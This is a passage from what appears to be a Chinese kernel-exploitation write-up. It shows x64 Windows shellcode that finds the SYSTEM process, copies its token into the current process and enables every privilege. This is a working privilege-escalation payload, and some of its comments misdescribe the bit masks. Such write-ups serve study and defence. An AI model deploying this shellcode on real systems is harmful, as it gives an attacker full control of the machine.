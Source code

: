 查看权限

[![](assets/1706090578-cd66cf9424dae99a4966172fe2a97d81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145038-e1cb8796-ba84-1.png)

#### III.重新编写 shellcode

```bash
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax + 0x188]
    mov rax, [rax + 0xb8]     ;rax = 当前EPROCESS
    mov r9, rax               ;r9  = 当前EPROCESS
    mov rax, [rax + 0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]            ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax - 0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax               ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]            ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS
    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    ;Enable ALL
    mov rdx, [r8 + 0x70]      ;rdx = system token
    and rdx, 0xFFFFFFFFFFFFFFF0           ;system token: 消除低8位，便于解析Token
    mov rbx, [rdx + 0x40]     ;rbx = System token的Present
    mov rcx, [r9 + 0x4b8]     ;rcx = 新的EPROCESS的token
    and rcx, 0xFFFFFFFFFFFFFFF0           ;new current token: 消除低8位，便于解析Token
    mov [rcx + 0x40], rbx
    mov [rcx + 0x48], rbx

    xor rax, rax
```